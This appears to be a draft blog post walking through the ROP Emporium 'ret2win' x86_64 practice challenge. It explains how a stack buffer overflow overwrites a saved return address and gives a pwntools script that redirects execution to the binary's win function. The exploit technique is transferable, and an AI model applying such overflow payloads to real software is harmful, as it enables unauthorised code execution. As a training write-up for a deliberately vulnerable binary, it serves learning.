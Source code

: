 ```yaml
---
layout: post
title: ROP x64 Challenge 1
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```


## Challenge 1 Ret2win

This challenge introduces the concept of a buffer overflow and controlling the instruction pointer of an executable. An important thing to know is that all the computer does is look at a chunk of binary in memory and then execute what it tells the computer to do. Then it looks at the next chunk of memory and so on and so forth.

However, occasionally the code needs to jump to other parts of code in order to function correctly (think of an if statement or a loop). To do this the computer simply reads an instruction that tells it to jump to a different part of code, say 20 values up/down from where it is now. 

That works great for loops and if statements, but programmers often want to call code from many different parts of the program (think functions). So in the middle of doing A, I want the program to stop, go do B, then come back and finish A. I also want to be able to do that while doing C, D, and F. The problem for the program, is once it finishes B, where does it go back to, A, C, D or F. It has to store that information somewhere and it is stored on the stack, which can be considered the memory of every function. The first thing a function does is store where it should return to on the stack and the last thing a function does is tell the computer to return back to that location.

What we are going to try and do is change that value on the stack so when the program returns to that stored location it returns to where we want it to go.

We see from running the ret2win binary that it will "attempt to fit 56 bytes of user input into 32 bytes of stack buffer!" and after looking at the stack in [[pwndbg]] we are able to see the following layout:

> ./ret2win 
	ret2win by ROP Emporium
	x86_64
	For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
	What could possibly go wrong?
	You there, may I have your input please? And don't worry about null bytes, we're using read()!

All local variables are on the stack and a base pointer (which we don't have to worry about). So assuming there are no other local variables, there is 40 bytes bytes between the read and the return pointer. We can craft a payload like this:
```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | return pointer | # where we are going to return to
8 bytes | -------------- |

```
By writing in the first 32+8 bytes of garbage, we are then able to write whatever we want into the return pointer. So all we have to do is look to see what the value should be.
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
pwndbg>
```

Looking at the functions in the binary we see there is one called ret2win or return here to win which seems super promising. Piecing that all together and we get the following exploit.

```python
from pwn import *

io = process('./ret2win')


# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

new_IP = p32(0x00400756) # The ret2win pointer

payload = junk + new_bp +  new_IP

# Print the payload for debugging puropses
print("The payload is:")
print(payload)

# wait for debugger to be attached
input("Hit enter to apptempt exploit")

# read the output and send the payload
print(io.clean(0.5).decode("utf-8"))
io.send(junk+new_bp + new_IP)



# Once done debugging, read the output
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))


```

The exploit will print out the pid of the process and then wait in order to attach gdb with `gdb -p $pid` for debugging it live.


